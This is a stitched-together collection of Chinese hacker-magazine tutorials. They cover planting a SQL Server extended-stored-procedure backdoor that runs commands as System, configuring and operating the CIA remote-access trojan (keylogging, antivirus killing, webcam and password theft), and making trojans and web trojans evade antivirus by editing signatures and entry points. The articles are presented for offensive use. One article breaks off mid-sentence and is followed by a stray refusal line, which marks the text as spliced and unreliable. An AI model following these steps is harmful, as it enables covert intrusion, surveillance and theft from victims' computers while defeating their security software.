在 SQL Server 2000 环境之外的动态链接库称为扩展存储过程，其前缀是 `xp_`。虽然这些动态链接库在 SQL Server 环境之外，但是它们可以被加载到 SQL Server 系统中，并按照使用存储过程的方式执行。最典型的扩展存储就是 SQL Server 自带 `xp_cmdshell`，这个扩展存储需要 Sysadmin 权限才能执行，一旦成功执行了 CMD，那是以 MSSQL 的运行权限而执行的，而 MSSQL 是以服务启动的，也就是 System 权限，比管理员大叔的权力还大！


为了安全起见，管理员大叔一般都删除了 `xp_cmdshell` 过程，更有甚者直接删除含有 `xp_cmdshell` 文件的 `xplog70.dll`。我的后门思路就放在扩展存储过程上面，因为扩展存储是以 DLL 方式存在，而且这个 DLL 是用 C++ 编写且可以任意调用 API 函数的。这样我们就可以写一个执行 CMD 的扩展存储（最初我是想直接修改 `xplog70.dll` 中 `xp_cmdshell` 的名字，不过失败了，在此略过）。

扩展存储过程可在 VC 里创建。创建存储过程工程之后，VC 会自动生成一个存储过程模板，稍稍看看代码，你就很容易上手了。在模板里我主要去掉了返回值，增加了一个 ShellExecute 函数用于执行 CMD。ShellExecute 函数是一个比较有用的函数，它可以根据后缀自动选择相关联的程序并打开文件。以下是这个函数的用法：

```c
HINSTANCE ShellExecute(
  HWND hwnd,
  LPCTSTR lpOperation,
  LPCTSTR lpFile,
  LPCTSTR lpParameters,
  LPCTSTR lpDirectory,
  INT nShowCmd
);
```

> 第二个参数是句柄，在这里不用；第三个参数是对文件的动作，选“open”；第三个参数是执行的文件，这里是 cmd.exe；第四个参数是命令行参数，填程序接收到的参数；第五个参数是默认目录或空值；最后一个参数是程序运行时的显示方式。

此函数在本程序中的使用方式为：`ShellExecute(0, "open", "cmd.exe", spParam, NULL, SW_SHOW);` `spParam` 是从扩展存储过程得到的参数，具体实现请看源代码，扩展存储的编写请参阅 MSDN。

ShellExecute 有个坏处就是看不到回显，不过把权限拿到了，回显也无所谓。当然你也可以自己写个显示回显的扩展存储过程。

OK，扩展存储命名为 `xp_lake2`，DLL 文件名为 `xplake2.dll`，现在让我们把它注册到 SQL Server：

```sql
USE master
EXEC sp_addextendedproc 'xp_lake2', 'xplake2.dll'
```

> 添加扩展存储过程要求连接 SQL Server 的账户有 Sysadmin 权限，并且使用相对路径时，需要把 DLL 文件放到 SQL Server 的 bin 目录之下。

我们现在可以试试效果了，调用参数跟 `xp_cmdshell` 一样，只是没有回显。在查询分析器里调用它：

```sql
USE master
EXEC xp_lake2 'net user > c:\\lake2.txt'
```

然后去 C 盘看看有没有生成 `lake2.txt`，至于权限，当然是 System 啦。

SQL Server 的扩展存储都要求 Sysadmin 才能执行，不爽，让我们给它改改，让 Public 也可以玩。如果有图形界面的控制权限，用企业管理器就可以轻松搞定，只需把 `xp_lake2` 的 Exec 权限赋给 Public 就 OK 了。在查询分析器里用 GRANT 即可：

```sql
GRANT exec
ON xp_lake2
TO public
```

命令执行后换一个普通的 SQL Server 用户调用 `xp_lake2` 试试，执行命令已经是 system 权限。在 WebShell 里测试，结果也一样。以下是利用海洋 2006 调用这个扩展存储过程的截图，如图 1 所示。


> 因为返回的值是空，所以显示出错，但是命令已经执行了。

再在命令行下用 `net user` 测试一下，结果如图 2 所示。


看，用户已经添加成功了。好啦，文章到此结束，大家赶紧去留自己的 SQLShell 吧！

蝴蝶：这次带来的是一款超级强大的木马，功能之全、能力之强已经达到了让人毛骨悚然的地步。世间无完美，不过CIA却堪称完美。本文作者以数量惊人的图片和文字对此木马做了详细解释，即使用户们英文水平不高，看完本文也能熟练操作它。不管怎么样，我们都推荐大家试一下这款木马。

适合读者：网络爱好者、木马爱好者  
前置知识：木马使用基础

#### CIA

追求完美而显现化的木马

文／图 天涯衰草

CIA这个词大家一定非常熟悉吧，最常见的解释就是大名鼎鼎的美国中央情报局。这个全世界知名的情报机构可谓无人不知、无人不晓。今天我要为大家介绍的可不是这个情报机构的惊险故事，而是一款功能极其强大的特洛伊木马程序，它的名字也叫CIA。它是笔者到目前为止见过的功能最多、设置最全的木马。该木马的功能到底怎么样，我们来瞧瞧吧。

##### 配置服务端

首先我们从黑防下载系统（http://www.hacker.com.cn）下载最新版本的CIA木马，解压后运行文件夹中的客户端程序Cruel-Intentionz.exe，这样就可以在展开的操作界面开始CIA木马的使用旅程了，如图1所示。


图2


图1

首先我们还是来配置木马的服务端程序，点击“Client Options”按钮并选择弹出菜单中的“Build Server”菜单命令，即可弹出服务端程序的配置窗口“Server Builder”。在这里我们就可以对服务端程序的各个选项进行个性化设置了，如图2所示。

从图2中我们可以清楚地看到，CIA木马服务端的选项实在是非常丰富，包括“Main Settings”“Start up”“Install Events”“Firewall Killing”“Notifies”“Socks/Dloader”等11个大项。下面笔者就对11个大项中的实用项目进行讲解，大家要跟上啊。

首先点击“Main Settings”按钮命令，这里主要是配置服务端程序的基本功能，包括服务端程序运行后打开的连接端口、服务端程序的名称以及服务端程序的隐藏方式等。CIA木马针对不同功能启用了不同的监听端口，“Main”“Transfer”和“Keylog”三个功能分别启用了6333、6334、6335三个端口。当然，你也可以将这些端口更改为其他你喜欢的端口。现如今很多木马都采用端口复用，这样就可以方便内网用户进行端口映射等操作，CIA暂时还没有进行这样的配置。

“Server Name”选项设置服务端程序名称，而“Password”选项则用于设置服务端程序和客户端程序连接时所使用的密码。CIA木马在服务端隐藏方式上采用了两种方式，这样可以使服务端程序轻松绕过网络防火墙“应用程序访问网络权限设置”的防火墙规则。在“Firewall Bypass Method”后面选择你想采用的隐藏方式，“DLL Spyware Fwb”这种方式是现在大多数间谍软件所采用的绕过防火墙的方法，而“Dll Injection”就是现在最常见也是最流行的DLL线程插入方式。用户可以选择将服务端程序的进程插入到IE浏览器或者资源管理器Explorer的进程中，而且还需要在“As”选项中指定要插入的DLL文件名称。

不用说用户也可以看出来，“Start up”按钮命令是用来设置服务端程序启动选项的。CIA木马根据远程系统的不同版本，为用户提供了多达6项的启动方式选项，这也可能是所有木马之最了，包括：

- Registry Run（All windows）
- Registry Run Services（9x/Me Only）
- System.ini（All windows）
- Win.ini（All windows）
- Explorer Run（2k/Xp Only）
- Windows NT Run（2k/Xp Only）

每一个启动选项后面都说明了该选项所支持的系统版本。可惜的是，没有使用现在流行的利用服务项和ActiveX插件进行启动的方法。用户可以根据远程系统类型选择需要的启动方式，如果不知道远程系统类型，还是最好选择标注为“All windows”的启动方法，当然你也可以同时选择多个启动方法。

“Install server”选项用于设置服务端程序安装到远程系统中的名称，而“Registry Value”选项则是设置随注册表启动的键值，如图3所示。


**图3**

“Install Events”选项用于设置服务端程序运行后的错误提示，主要用于迷惑远程用户。选中“Display Message on install”选项后，就可以对弹出的错误提示进行设置。用户可以分别对提示窗口中所使用的图标、标题、内容进行设置，设置完成后点击“Test”按钮进行测试，如图4所示。


**图4**

除此之外，CIA木马还提供了另外一个“Goto webpage on install”选项，当用户设置了该选项后，服务端程序就会自动连接到设置的网页链接。

为了更好地保护服务端程序，将远程计算机中使用的第三方杀毒软件以及防火墙自动关闭也是很好的保护措施，通过“Firewall Killing”按钮命令就可以实现。选中“Kill A/V +Firewalls”选项，点击下面的“Load List”按钮后，在木马所在文件夹中找到“Kill Lists”文件夹，并选择该文件夹中的“Huge kill list”文件就可以了。该文件包括7469个杀毒软件以及防火墙的名称，当服务端程序检测到文件中的这些软件名称后，就会自动杀掉这些软件的进程，从而保护我们的服务端程序。不过这些软件主要是国外软件，为了对国内杀毒软件也起作用，可以通过“Add Name”按钮进行添加，例如你想杀掉瑞星，就输入“RISING”就可以了，如图5所示。通过“Delete Name”按钮也可以删除一些不需要的软件名称。


**图5**

既然是木马，那么通过怎样的通知方式来告诉本地操作者远程计算机已经上线了呢？点击“Notifies”命令按钮即可对服务端上线方式进行设置。CIA木马为用户提供了多种上线方式，点击“Add Cgi/Php”按钮，用户可以通过CGI或者PHP网页对服务端程序上线进行通知。点击“Add Icq”按钮，用户也可以添加自己的ICQ号码，等服务端程序上线后即可将远程计算机的IP地址等情况发送到设置的ICQ号码中。不管用户采用上面的哪些方法，在配置完成后最好点击“Test”按钮进行测试，确定刚刚的设置是否正确。虽然通过PHP网页或ICQ进行上线通知的方法在国外木马中使用非常普遍，但对于国内网友来说毕竟还是不太熟悉，所以我们最好还是选择自己熟悉的方式进行设置，而反弹连接方式就是大家最熟悉的方式了。选中下面的“Enable Sin Notify”选项，这就是CIA木马进行反弹连接的选项，在“Static Ip”和“Port”中分别设置本地客户端电脑现在所使用的IP地址以及监听端口。如果用户不清楚当前IP地址，点击“GET Ip”按钮后木马客户端会自动获取当前IP，如图6所示。


**图6**

除了上面的这些上线通知方法外，木马还可以通过电子邮件方式进行通知。点击“Email Notify”按钮，选中“Enable Email Notify”选项激活该通知方式；在“Email Address”和“Smtp Server”后面分别设置电子邮件地址以及邮件发送服务器等，通过点击“Lookup Smtp Server”按钮用户可以获得当前能够正常使用的邮件发送服务器。

为了对服务端程序进行伪装，将其他文件和服务端程序进行捆绑就成了最好的办法，所以很多木马在配置服务端时都包括该功能。用户点击“Binder”按钮命令后即可实现捆绑操作。点击“Add File”按钮，在弹出的 Add Bound File/Plugin 窗口中选择需要捆绑的文件即可。除此以外，由于CIA木马本身支持大量插件，所以用户还可以对相应插件进行捆绑。点击“Open”按钮选择相应文件或插件，然后在“File Destination”项目中选择该文件释放目录，包括System、Windows、Temp等常用系统目录，并且还可以在“Execution Type”中对该文件运行方式进行设置，例如正常运行、隐藏运行、最大化运行等。对于插件等特殊文件，除WinRAR自解压已有功能外，还可以通过“Register”或“Auto-Start”选项对插件和DLL选项以及它们的启动方式进行设置，并可选定随服务端自动启动的插件，如图7所示。


图7

最后点击“Add File To List”按钮将刚才设置的需要捆绑的文件添加到捆绑文件列表中。从上面关于服务端的捆绑来看，CIA木马的捆绑功能甚至比一些专业捆绑程序都要优秀很多。

点击“Socks/Dloader”按钮，在这里我们可以设置一些特殊的服务端功能，当然用户也可以在远程计算机连接成功后再通过命令开启这些功能。选中“Download&Execute File”选项后，我们可以像平时使用的网络下载程序一样，从网上直接下载网页链接中的文件并运行。在“File Url”和“Save as”后输入要下载文件的网页链接以及保存到本地硬盘的位置。而“Run Socks 4 Server on install”选项可以通过服务端程序在远程计算机上打开一个Socks 4代理端口，“Socks Port”中设置代理端口号。

点击“Stealth Options”按钮，该命令包括以下四个选项，如图8所示：

- Hide Processes From Task Manager (NT)
- Hide Files From Windows Explorer (NT)
- Hide Values From Regedit (NT)
- Hide Names From MsConfig List (NT)


图8

通过这些命令可以分别将任务管理器中的进程、资源管理器中的文件、注册表管理器中的键值，以及系统配置程序中的程序名称进行隐藏。在灰鸽子2005中也使用了隐藏功能，不过可没有CIA这么强大。

点击“Misc/Icon”按钮，该命令中包括很多其他杂项设置，通过这些功能用户可以进一步对远程服务端程序进行保护：

- “Enable Server Visible（Injection Only）”选项可以使插入进程的服务端程序显现出来；
- “Enable Melt Server”选项，服务端程序会在成功运行后自动删除服务端程序本身；
- “Disable Taskmanager”选项可以禁止远程用户使用系统中的任务管理器命令；
- “Disable Regedit”选项可以禁止用户使用注册表管理器命令；
- “Disable System Restore（XP）”选项可以取消远程计算机中XP系统的还原功能；
- “Disable Command Prompt”选项可以禁止用户使用命令提示符功能；
- 通过“Open Port Only When Online”选项，只有在连接到网络时，服务端程序才会打开设置端口；
- “Dont Send LAN ip's in notify's”选项将不会发送服务端的IP地址到客户端程序；
- “Unblock Some Popular Firewalls”选项能除去一些常见防火墙，例如XP系统自带的网络防火墙；
- “Reverse Connection Only（For SIN only）”选项可以使服务端程序仅使用反弹连接方式和客户端连接；
- 选中“Log Offline Keys | Max Log Size（Kb）”选项，这样就可以在脱机情况下记录远程计算机的键盘事件，并且设置键盘记录的最大范围，如图9所示。


图9

点击“Change Server Icon”按钮，我们可以为服务端程序设置个性化图标。选中“Change Server Icon”选项后，木马会打开自带的272个图标供用户选择。如果没有喜欢的图标，还可以点击“Open Custom Icon”按钮选择其他喜爱图标。下面点击“Build Server”按钮就可以完成服务端配置工作了。在“Filename”后面设置生成的服务端程序名称，在“Extension”后面设置生成服务端扩展名。除了常见的EXE可执行文件外，CIA还包括屏幕保护程序的SCR后缀名、批处理文件的BAT后缀名等6个扩展名选项。如果用户选择了“Compress With Mew”选项，那么木马将使用MEW对服务端程序进行加壳保护。最后点击“Generate Server”按钮即可生成我们配置的服务端程序，如图10所示。

虽然CIA木马的功能十分强大，但生成的服务端程序却很小巧，在没有压缩的时候只有171KB，在压缩后大概为52KB。服务端程序生成以后，用户可以通过网页木马等各种方法将其发布出去。


图10


图12

##### 远程控制服务端

当服务端程序成功安装到远程计算机以后，我们就应该对客户端程序和服务端程序的连接做准备了。如果用户采用的是通过CGI或PHP网页对服务端程序上线进行通知的方式，就选择“Client Options”菜单下的“Logger list”菜单命令，在弹出窗口中的“List Url”项目后输入你的网页地址，然后点击“Update list”按钮刷新网页得到最新远程用户列表，如图11所示。


图11

用户在上线用户列表上点击鼠标右键后选择“Connect TO IP”命令即可连接到远程计算机。如果用户采用的是反弹连接的上线方式，那么就点击“Client Options”菜单下的“SIN Console”命令，在弹出的窗口中点击“Start Listening”打开本地监听端口，等待服务端反弹连接。

CIA木马除了服务端配置功能强大之外，它的控制命令也非常强，不但使用了反弹连接技术、线程插入技术，在服务端控制方面还使用了多线程技术，这样用户就可以方便地同时运行多个命令。我们首先点击“Managers”按钮命令，它会弹出一个菜单列表，包括“File Manager”“Process Manager”“Message Manager”和“Scripting”等多个远程控制命令。这些命令都是木马最常见的控制命令，下面我们就来了解一下这些命令的功能。

点击“File Manager”命令，在弹出的窗口中用户可以对远程计算机中的文件进行上传、下载、删除、运行等操作，如图12所示。

“Registry Manager”命令可以对远程计算机中的注册表进行管理，点击“Get Keys”就可以获得远程注册表，然后在“Path”选取需要管理的主键，再依次找到需要查找的内容，进行包括新建、修改、删除在内的一系列修改。

“Process Manager”命令可以对远程计算机系统当前进程进行管理，“Kill Selected”按钮可对不需要的进程进行关闭。“Service Manager”是针对NT内核系统服务项进行管理的命令，用户可以对服务项进行开始、停止、暂停等操作。也可以通过“All”“Active”和“Inactive”等选项对全部服务、已经激活的服务以及未激活的服务进行单独查看。

“Windows Manager”命令可以对远程计算机中当前窗口进行管理，你可以对这些窗口进行最大化、最小化、隐藏、关闭等操作，还可以对选中窗口的标题栏进行更改，并能通过键盘发送大量指令。“Message Manager”按钮可以对远程计算机发送一些语句，例如：MM，做个朋友吧，如图13所示。


图13

“Scripting”命令可以通过用户编写脚本从而对远程计算机进行控制，并且可以对脚本运行方式进行设置。在了解了CIA木马对远程计算机的一些管理控制命令以后，我们接着看看其他控制命令。黑客对远程视频的控制也非常重要，“Visual/Audio”菜单下的命令就可以方便地实现这些需要。点击“Screen Capture”命令，我们就可以对远程计算机桌面进行查看，点击“Start Capture”命令就可以开始捕捉屏幕。如果用户选择了“Save Pics”选项，木马会自动对捕捉屏幕进行保存。选择“Enable Screen Clicks”选项后，还可以通过捕捉屏幕对远程计算机进行鼠标控制，就像在自己的电脑上操作一样。

通过“Webcam Capture”命令，可以通过远程计算机中的摄像设备对图形进行捕捉。首先点击“List Drivers”和“Set Driver”按钮命令，它们可以查看远程计算机中是否安装有视频设备，如果有的话就可以点击“Start Capture”命令进行图像捕捉。现在这种通过视频设备进行图像捕捉的方式在木马中越来越流行。

“Keylogging”命令就是木马常见的键盘记录器，用它我们就可以获得远程用户的键盘记录。点击“Start Logging”开始记录，并可以通过“Save Log”和“Clear Log”对记录内容进行保存或清除。还可以通过“Get Offline”和“Clear Offline”命令对远程计算机在脱机状态下的键盘记录进行查看和清除。通过“Streaming Audio”命令还可以对远程计算机音频进行捕捉，并且针对不同网络用户进行不同音频记录。“Recovery”按钮下的命令可以使用户进一步获得远程计算机中的信息。


图15

点击“Find Files”按钮，用户可以指定在远程计算机目录中搜索你需要的文件并进行下载，如图14所示。


图14

通过“Information”命令可以获得远程计算机大量信息，包括系统信息、浏览器版本、文件目录等。“Misc Info”命令可以查看用户最近对系统的操作情况，包括最后运行的程序、搜索的文件等情况。“Passwords”命令可以读取众多软件密码，如用户登录密码、FXP工具、ICQ和The Bat等。“Cd keys”命令可以成功获得远程系统中安装软件的序列号，这在木马当中可是非常少见的。

通过“Clipboard”按钮，你可以查看对方电脑当前剪贴板中的内容，并且还可以对剪贴板中的内容进行更改。“Administration”按钮菜单下的命令可以对服务端进行一些杂项设置。通过“Server Admin”命令用户可以对服务端进行管理，包括服务端卸载、关闭、重新启动等；“Power Admin”命令可以强行运行命令，包括系统重启、关机等。通过“Transfers”命令我们可以在进行文件传输过程中查看文件进程。“Socks 4 Server”命令可以在远程计算机中打开Socks 4服务，如果用户在配置服务端时没有进行设置，在这里也可以进行Socks 4服务的开启。“Misc Control”命令可以使远程系统中的命令提示符、系统还原、任务管理器以及注册表管理器进行禁止使用和开启使用的操作。“Web Downloader”命令可以让服务端电脑下载你指定链接的内容并自动运行，如图15所示。

“Communication”按钮下的菜单可以用于客户端等的通讯设置。如果你在前面通过视频设备观察觉得远程用户还不错的话，可以通过“Server Chat”按钮来和对方进行交流，这在不知道对方QQ号码的时候是十分管用的。在“Your Nick”和“There Nick”中分别输入你的昵称和对方昵称，再选择你喜欢的聊天模式后，点击“Open Chat”按钮就可以开始聊天了。

客户端用户除了可以和远程服务端用户进行聊天外，通过“Client Chat”命令还可以和其他客户端用户进行交流。通过“Remote Email”命令，用户可以给网络中的用户发送匿名邮件，CIA的作者真是考虑周全啊。

“Fun Options”按钮下的命令都是一些整人、娱乐用命令。“Classic Fun”命令虽然打着“Classic”的旗号，其实里面包括的都是一些常见恶作剧命令。在这你可以隐藏对方桌面、任务栏，打开、关闭显示器、光驱，电击对方等，如图16所示。


图16

你可以通过这些工具“为所欲为”，直到将对方搞死为止。“Mouse Fun”命令也是恶作剧的一部分，不过它针对的是用户手中的鼠标，例如可以进行左右键交换、更改鼠标等。我们还可以利用“Printer Fun”命令，通过远程计算机中的打印机打印键入文字。在窗口输入需要打印的文字，点击“Print Text Remotely”就可以成功在对方打印出这些文字。如果你不好意思向MM表白的话，这个功能就非常适合你。通过“System Colours”命令可以对远程系统中的各项颜色进行设置更改。“NT Speaker”命令可以使远程计算机音箱发出各种噪声，用户还可以对发出噪音的音频、时间以及声音类型进行设置，使得对方痛不欲生，如图17所示。


图17

“Resolutions”命令可以对显示器分辨率进行更改，将分辨率给它设置最高，很快显示器就会冒烟。首先点击“Get resolution”按钮得到远程计算机可以使用的分辨率，然后选择你需要的分辨率后点击“Set resolution”按钮进行修改。像这样的功能，在木马中还是不多见的。“Applications”菜单下的命令可以对远程系统中的附加软件进行控制，包括MSN、IE浏览器等。“Msn Messenger”命令不用说，就是针对系统即时通讯软件MSN的，“Grab Contacts”“Open Fake Msn”。

抱歉，我不能帮助整理或优化这段包含木马制作、免杀与规避安全检测等可直接用于恶意用途的内容。

适合读者：黑客迷

前置知识：无

##### 活用之意识流

文/zen, von, chaos

一听到计算机病毒这个名词，许多人都会谈虎色变，尤其是一些刚刚接触计算机应用的新手，往往更是手足无措。病毒基本上是人人喊打，然而在某些特定的条件下，我们是可以利用病毒来完成一些特殊功能的。

这次的主角是“病毒制造机”，运行后我们可以看到主界面，如图1所示。从界面提示上我们可以大概了解它的功能和用法，其中第二步的选项比较有危害性，我们不选它，如图2所示。

第三步设定病毒所具有的功能，看来功能还不少，全选上，如图3所示。第四步设定中毒后的弹出提示，如图4所示。第五步设定病毒的重要特性之一：传播性，如图5所示。

第六步和第三步类似，也是设定病毒功能的，同样全选上，如图6所示。最后一步是设定病毒的存放位置，这里我随便选定了一个地方，如图7所示。


现在回到生成目录，如图8所示：VBS文件是用脚本语言VBScript编写的程序文件，用于实现手动任务自动化。与BAT文件相比，VBS脚本功能更强，运行时窗口痕迹更小，对病毒隐蔽更有利。


Reset.VBS是程序额外生成的解毒文件，另一个是病毒。我们的最终目的是这个解毒文件，这也是建议把病毒功能都选上的原因：设置越多，解毒文件可解除的限制也越多。用记事本把解毒文件打开看看，如图9所示。

仔细看不难发现，病毒功能主要是依靠修改注册表来实现的，不过这些操作都由VB Script帮我们解决了。现在可以把解毒文件收藏起来，以备不时之需，这不算是以毒攻毒吧。

总结：本文谈论的是脚本技术，但是功能的实现还是靠注册表，所以无论技术新旧，关键在于使用者的思想，把知识和技术结合起来就能铸成无往不利的长矛。

---

适合读者：木马爱好者

前置知识：破解基础知识

## VIP会员学习成果展

#### 黑防专版鸽子定位之江民免杀

文/图 [黑防VIP]op336 火龙


前两天鸽子网站又开了，鸽子VIP已经出到2006版了。我下载看了一下功能，基本上都没什么变化，主要是界面上有了改进，如图1所示。

特征码，并且加以修改直至免杀。可能大家更需要的是卡巴斯基的文件定位和过程内存的定位方法吧？其实总体方法都是一样的，区别在于特征码的多少等问题。只要掌握了方法，什么杀毒软件你都可以过的。江民的特征码在定位时比较容易，适合菜鸟练练手。


图1

黑防鸽子去掉了一些功能，使我们的免杀节约了很多时间。假如大家需要那些功能，可以使用插件的办法解决，所以黑防鸽子并不比鸽子VIP 2006差。

很多朋友无法定位黑防鸽子服务端的特征码，用CCL定位器定位，每个杀毒软件得到的结果都是特征码在PE头中。大家都明白PE头是不能乱修改的，这使免杀鸽子走入了困境。其实还是大家对多重复合型特征码的认识不够，网上说的主特征码、主主特征码、辅特征码其实都是这个意思。


图2

假设图2中的A、B、C、D、F区段中都为一种特征码，B、F区段为A区段的辅特征码。当我们对A区段添零后，还是存在B、F区的辅特征码，杀毒软件会报和A区段中的特征码相同的病毒。我们在查看查杀结果后都以为是同一个，且这样生成的样板文件会被全杀，所以就留下了PE头。假如A、B区同时被添零，杀毒软件会报出C区中的特征码，这样我们就先替换了一个复合型的特征码；假如C区不为复合型，那我们就能定位C区的特征码。

不过它生成的服务端和鸽子VIP2005有一些不一样。看来新一轮的鸽子免杀大战又要开始了。我们黑防的同志还是要支持黑防专版鸽子，今天我为大家讲述如何定位出江民的关于黑防鸽子服务端的特征码。


图9

我们只能一处一处地定位所有特征码，对于复合型的特征码，当我们在定位出F区后，A、B、F区的这个复合型特征码就破坏了，A、B区就是单一的特征码了，这对于我们的定位非常方便。

明白了原理，我们现在开始工作。我们要用到的工具有黑防专版鸽子服务端、计算工具、CCL2.8、C32Asm、江民杀毒软件。

- 1. 用C32Asm打开黑防鸽子服务端Server.exe，如图3所示。
- 2. 打开CCL设置手动操作参数，总共生成500个，生成到“c:\\11”文件夹中，如图4、图5所示。我们使用文件特征码定位，打开Server.exe，如图6所示。我们对整个文件进行定位，生成500个样板文件。
- 3. 使用江民对生成的样板文件查杀，结果如图7所示。从查毒结果我们可以看出肯定存在复合型特征码，我们的500个样板文件都为病毒，但从生成的样板所报的病毒中我们惊喜地发现了“OUT_000A0E52_000005F2”显示为backdoor/huigezi.cgi，这就是说backdoor/huigezi.qy的复合型特征码在“000A0E52_000005F2”区段中被破坏了！
- 4. 通过500个样板文件的结果，我们初步可以通过手工对“000A0E52_000005F2”区段添零来定位出backdoor/huigezi.cgi的特征码位置。以我的经验看，YYY、XXX这样后缀为3位的一般都是辅单一特征码。我们还是用CCL生成500个样板，但在生成时要对000A0E52_000005F2添零处理，如图8所示。


其中大小的计算我们可以通过计算工具或自己手工计算得到。我们再对这次生成的500个样板进行查杀，得到结果是查杀了302个backdoor/huigezi.cgi，定位结果为：

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00000000 | 000007EF | 000007EF |
| 0002 | 000A1444 | 0000074F | 000A1B93 |

我们可以从结果中选一个OUT_000A1544_000005EF大小的区段，通过CCL的4个字节大小的文件特征码定位得到较精确的特征码位置。结果为：

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 000A1578 | 00000040 | 000A15B8 |

这样我们已经定位出了backdoor/huigezi.cgi详细位置。

- 5. 我们选择“000A1594_00000004”区段并添零，然后通过CCL对“000A0E52_000005F2”区段中的特征码进行定位，也是用4个字节的大小来进行详细定位。结果样板中为病毒的文件都报backdoor/huigezi.qy这个统一特征码了，定位的结果为：

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 000A12FE | 00000044 | 000A1342 |

- 6. 今天定位的江民特征码已经出来了，我们只要在“000A1578_00000040”和“000A12FE_00000044”区段中同时修改其中汇编代码大小满4个字节，就可以对江民免杀了。最后做个总结。下面是我选的两个修改的地方。第一处通过大小写法修改，如图9所示。


第二处通过指令调换法修改，我们选取下面两句汇编指令做调换：

```asm
000A1328: 8B55E0       MOV EDX, [DWORD SS:EBP-20]
000A132B: B8 687F4A00  MOV EAX, 4A7F68
```

---

适合读者：木马爱好者

前置知识：破解基础知识

## VIP会员学习成果展：SMI的挂马与免杀

文/图 [黑防VIP]op336 火龙


最近黑防VIP系统免费给VIP会员提供了系列免杀教程，很详细，学到了很多，手痒了，我也来发一篇免杀的文章。今天我们的免杀对象是RealPlayer的漏洞木马，就是大家常说的SMI文件。

工具：RealPlayer漏洞木马生成器、UltraEdit-32、杀毒软件。

前段时间网上出了个RealPlayer的新漏洞，很快利用此漏洞的网马也出了。它的涉及面很广并且挂马方便、种马率极高……今天我们的任务就是对SMI文件做免杀。我们先去黑防下一个“RealPlayer网马生成器”，界面如图1所示。


配置比较简单，我们只要在图1所示的“木马下载地址”中填入你木马的下载地址然后点生成就OK了。生成后有两个文件music.smi和music.htm……

> [rm][/rm]是UBB中常用的一条语句，作用是在自己的帖子中引用一个RM文件。

现在进入我们最重要的环节：免杀。SMI文件不是EXE可执行程序，杀毒软件一般是基于特征码查询来杀毒的……用UltraEdit-32打开SMI文件，如图2所示。

```html
<smil>
<head>
  <layout>
    <region id="gOld" top="35" />
  </layout>
</head>
<body>
  <text src="realloading.txt" region="size" system-screen-size="..." />
</body>
</smil>
```

图2

仔细观察代码，会发现它含有一部分HTML代码……我们所要做的就是把里面的空格和回车都去掉，如图3所示。

```html
<smil><head><layout><region id="gOld" top="35"/></layout></head><body><text src="realloading.txt" region="size" system-screen-size="..."/></body></smil>
```

图3

保存，用卡巴斯基查看，发现已经不被认为是病毒了，同时也顺利通过江民的测试……这次layout改为大写，测试后发现可以躲过瑞星的内存查杀。

如果你不相信特征码就在这几行，可以用CCL文件定位，或用对半法则定位。

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00000000 | 000000B0 | 000000B0 |
| 0002 | 00000650 | 00000010 | 00000660 |
| 0003 | 00000668 | 00000004 | 0000066C |

以下是我用卡巴斯基定位获得的地址，如图4所示。


图4

这里我们只是删除了几个空格和回车，修改了语句的大小写，对于程序没有任何影响……这是最简单又最为行之有效的防马解决方案。

---

适合读者：入侵爱好者  
前置知识：无

## 打造免杀版MT

文/图 孤独一枝

MT是一款优秀的国产入侵工具，功能非常全面，有的黑友甚至将它和NC相提并论。可是由于MT自身的“黑色基因”，导致其常常被杀毒软件追查。为了让杀毒软件不再干扰我们的入侵，我们就来将MT进行一番免杀处理吧。

##### 脱壳

首先使用PEiD查看软件的服务端是否加壳。点击PEiD主界面中的“文件→...”按钮，选择MT文件，如图1所示。


图1

从图中我们可以发现它采用UPX进行压缩。这个壳比较简单，我们用UPXShell脱壳，如图2所示。


图2

##### 免杀

要使程序不被杀毒软件查杀，最常见的方法就是修改特征码、添加花指令。可这些方法对我们来说还是难了一点。最近我找到了一个简单的方法，很轻松地就搞定了MT的免杀。

运行PEditor这款软件修改程序，点击“浏览”按钮选择刚刚脱壳的MT。PEditor会自动读取服务端程序的“文件信息”，我们只要对“入口点”这个信息进行一下修改就可以了，如图3所示。


图3

在我本机上的“入口点”是000011F0，我们只需要将这个值加1，成为000011F1即可，然后点击“应用更改”按钮对刚才的设置进行确认。下面用杀毒软件进行查看，发现修改过的服务端程序已经不被查杀了，测试的杀毒软件包括卡巴斯基、金山毒霸、KV2006等。

##### 测试

确认修改过的程序不被查杀以后，我们不要高兴太早，因为有的程序被修改后不能正常使用。所以我们需要对修改后的程序进行测试，所谓的测试，其实就是运行修改后的程序，看看它是不是会非法退出，或者某些功能不能实现。经过笔者测试，修改后的MT完全可以正常使用。

##### 加壳

确认可以正常使用后，我们来为程序添加一个新壳，这样做一是为了减少程序的体积，二是为了对程序进行保护。加壳的软件很多，如ASPack、ASProtect、UPXShell等。这里我们就使用ASPack进行加壳。打开ASPack，点击“打开”按钮，选择刚刚修改过的程序，如图4所示。


图4

至此，关于MT的免杀操作就介绍到这，大家可以通过上面的介绍对其他黑客工具或木马进行免杀操作。如果还有什么问题的话，欢迎大家到黑防的论坛一起进行讨论。

---

适合读者：黑器迷、免杀爱好者

前置知识：常用免杀软件使用基础

#### 卡巴复合特征码下的免杀

文/图 我的人生


##### 前置知识

在本文详细介绍之前，我们先来看看其它杀毒软件的特征码检测方法。从某一个病毒样本的各个偏移位置提取约16字节的特征码，为了减少查杀的误报率，当只有同时符合这几处特征码的文件才被认为是病毒/木马。因此我们的免杀思路就是更改其中的任意一处，从而达到免杀效果。

让我们再来看看卡巴斯基的特征码定位，我使用的版本是卡巴斯基Personal Pro 5.0.391。它使用了冗余病毒库，可以查杀很多的恶意程序和广告程序。当我们对一个木马进行CCL定位时，典型症状就是无论我们选择手动定位中替换字节大小的多少，最终的结果是无一例外全部被杀。剩下的只是文件头所在特征码被替换后的文件。但这些文件已经不能算是PE文件了，自然无法运行。那么CCL是不是就失效了呢？当然不是。首先我们要搞清楚原理，然后对症下药。卡巴斯基的查毒过程，首先是对文件进行PE有效性检测，当我们替换了PE文件头的特征码之后，任何杀毒软件都不会报警（当然也无法运行）。然后是采用了主辅特征码检测，此处“主辅”不仅仅只有两段……

